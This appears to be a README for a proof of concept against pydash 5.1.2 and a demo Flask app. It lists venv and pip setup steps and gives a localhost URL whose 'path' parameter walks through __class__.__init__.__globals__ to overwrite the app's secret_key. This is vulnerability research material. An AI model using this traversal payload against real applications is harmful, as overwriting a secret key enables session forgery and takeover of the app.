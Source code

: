 
**Instructions for pydash 5.1.2 and flask PoC**

**Prerequisites:** python3.x, pip

* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py

* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: <http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'>
    3. result will be printed in the terminal window running the flask server

